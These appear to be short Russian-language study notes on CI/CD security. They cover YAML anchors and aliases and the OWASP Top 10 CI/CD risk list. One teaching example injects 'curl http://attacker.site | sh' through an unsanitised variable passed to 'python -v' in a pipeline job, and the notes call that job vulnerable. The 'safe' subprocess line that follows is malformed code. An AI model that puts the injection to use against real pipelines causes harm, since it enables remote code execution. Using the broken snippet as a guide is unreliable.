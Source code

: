 https://owasp.org/www-project-top-10-ci-cd-security-risks/
https://cheatsheetseries.owasp.org/cheatsheets/CI_CD_Security_Cheat_Sheet.html

### Anchors и Aliases 
Anchor (&): Создает "ссылку" на фрагмент данных в YAML-файле (например, &my_anchor some value).
Alias (*): Использует ранее созданную ссылку для копирования ее значения (например, *my_anchor).

### Python -v в CI/CD
```
USER_INPUT="my_script.py; curl http://attacker.site | sh"
python -v $USER_INPUT

# уязвимый пример CI CD
run_debug:
  script:
    - python -v $DEBUG_SCRIPT

# Безопасно
import subprocess : subprocess.run([“python”, “-v”, script_name]) # Безопасное использование
```

CICD-SEC-1: Insufficient Flow Control Mechanisms
Наличие QG
Настройте правила защиты ветвей 
Запретите автоматический merge в main ветку

CICD-SEC-2: Inadequate Identity and Access Management
CICD-SEC-3: Dependency Chain Abuse
CICD-SEC-4: Poisoned Pipeline Execution (PPE)
CICD-SEC-5: Insufficient PBAC (Pipeline-Based Access Controls)
CICD-SEC-6: Insufficient Credential Hygiene
CICD-SEC-7: Insecure System Configuration
CICD-SEC-8: Ungoverned Usage of Third-Party Services
CICD-SEC-9: Improper Artifact Integrity Validation

CICD-SEC-10: Insufficient Logging and Visibility

